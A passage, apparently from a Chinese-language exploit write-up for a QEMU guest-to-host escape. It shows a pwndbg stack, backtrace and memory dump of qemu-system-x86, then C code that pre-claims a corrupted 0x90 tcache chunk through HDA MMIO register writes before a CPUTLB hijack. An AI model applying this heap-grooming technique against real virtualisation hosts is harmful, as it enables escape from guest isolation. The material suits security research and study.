 ```gdb {hide=true}
───────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────
00:0000│ rsp 0x7337d34591c0 ◂— 0x86
01:0008│     0x7337d34591c8 —▸ 0x5990b53c4aa9 ◂— 0x5500542d444a424f /* 'OBJD-T' */
02:0010│     0x7337d34591d0 —▸ 0x5990e9489770 —▸ 0x5990e9353020 —▸ 0x5990e91ae4f0 —▸ 0x5990e91ae670 ◂— ...
03:0018│     0x7337d34591d8 —▸ 0x7337d34593c0 —▸ 0x73378f240800 (code_gen_buffer+52692947) ◂— 0
04:0020│     0x7337d34591e0 ◂— 0x86
05:0028│     0x7337d34591e8 —▸ 0x7337d3459210 —▸ 0x7337d40c9630 (fprintf) ◂— endbr64 
06:0030│     0x7337d34591f0 —▸ 0x5990b53c4a0d ◂— '0x%08lx:  '
07:0038│     0x7337d34591f8 ◂— 0xffffffffac45e350
─────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────
 ► 0   0x5990b4d48da9 print_insn_objdump+137
   1   0x5990b4d48da9 print_insn_objdump+137
   2   0x5990b4d48bbf target_disas+207
   3   0x5990b51a0b6c translator_loop+1052
   4   0x5990b511bd70 x86_translate_code+48
   5   0x5990b519f4c4 setjmp_gen_code.constprop+148
   6   0x5990b519f982 tb_gen_code+370
   7   0x5990b519cfa2 cpu_exec_loop+1554
─────────────────────────────────────────────[ THREADS (3 TOTAL) ]──────────────────────────────────────────────
  ► 3   "qemu-system-x86" stopped: 0x5990b4d48da9 <print_insn_objdump+137> 
    1   "qemu-system-x86" stopped: 0x7337d43d70d0 <g_main_context_release> 
    2   "qemu-system-x86" stopped: 0x7337d418788d <syscall+29> 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> x /32gx 0x73377c335460
0x73377c335460:	0x89495741fa1e0ff3	0x55544155415641ff
0x73377c335470:	0x98ec814853f58948	0x65105e8b48000000
0x73377c335480:	0x0000002825048b48	0x0000009024848948
0x73377c335490:	0x052b48f88948c031	0x0c244c89015d4e64
0x73377c3354a0:	0x000000702444c748	0x10e18306f8c14800
0x73377c3354b0:	0x4824448948378b48	0x000000782444c748
0x73377c3354c0:	0x84c74820478b4800	0x0000000000008024
0x73377c3354d0:	0x2484c74840e68300	0x0000000000000088
0x73377c3354e0:	0xffff00000689840f	0xffffffffffffffff
0x73377c3354f0:	0xffffffffffffffff	0xffffffffffffffff
0x73377c335500:	0xffffffffffffffff	0xffffffffffffffff
0x73377c335510:	0xffffffffffffffff	0xffffffffffffffff
0x73377c335520:	0xffffffffffffffff	0xffffffffffffffff
0x73377c335530:	0xffffffffffffffff	0xffffffffffffffff
0x73377c335540:	0xffffffffffffffff	0xffffffffffffffff
0x73377c335550:	0xffffffffffffffff	0xffffffffffffffff
```

该堆块是在解析CPUTLBEntry之前就申请的，所以我们提前申请占用这个非法的0x90 tcache chunk：

```c
    *(uint8_t *)huge = 0;
    mmio_write64(hda_mmio_mem, ST_REG(2, ICH6_REG_SD_LVI), 0x9-2); // 提前占用非法的0x90 chunk
    kfunc(hijack_CPUTLB);
    mmio_write64(hda_mmio_mem, ST_REG(2, ICH6_REG_SD_CTL), SD_CTL_STREAM_RESET);
```
